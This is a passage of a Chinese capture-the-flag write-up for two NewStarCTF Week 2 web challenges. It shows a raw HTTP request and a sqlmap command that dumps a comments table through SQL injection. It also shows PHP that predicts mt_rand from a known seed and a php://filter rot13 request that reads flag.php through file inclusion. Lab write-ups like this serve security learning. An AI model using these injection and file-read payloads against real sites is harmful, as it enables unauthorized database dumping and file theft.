#flag{x1hu@n_w0_4sp_ma??}
web 我的web还很菜，这位师傅给了详细的wp：七校联合NewStarCTF 公开赛赛道WEEK2 web wp
Word-For-You(2 Gen) sqlmap
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 POST /comments.php HTTP/1.1 Host: 90176c4f-e0a6-4c63-ae31-fa60d6e6a470.node4.buuoj.cn:81 Content-Length: 6 Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1 Origin: http://90176c4f-e0a6-4c63-ae31-fa60d6e6a470.node4.buuoj.cn:81 Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 Referer: http://90176c4f-e0a6-4c63-ae31-fa60d6e6a470.node4.buuoj.cn:81/ Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Connection: close name=1 #post.txt
1 2 sqlmap -r post.txt -D 'wfy' -T 'wfy_comments' --dump --level=5 --fresh-queries --delay 0.1 > sqlmap.txt
IncludeOne 提示给了方法：

1 2 3 4 5 6 7 8 <?php mt_srand (1145146 );echo mt_rand ();echo '\n' ;echo mt_rand ();?>
然后用rot13绕过一下就行
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 POST /?file=php://filter/NewStar/read=string.rot13/resource=flag.php HTTP/1.1 Host: df77d66c-2711-420c-9b08-702dd925b971.node4.buuoj.cn:81 Pragma: no-cache Cache-Control: no-cache Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: 16 guess=1202031004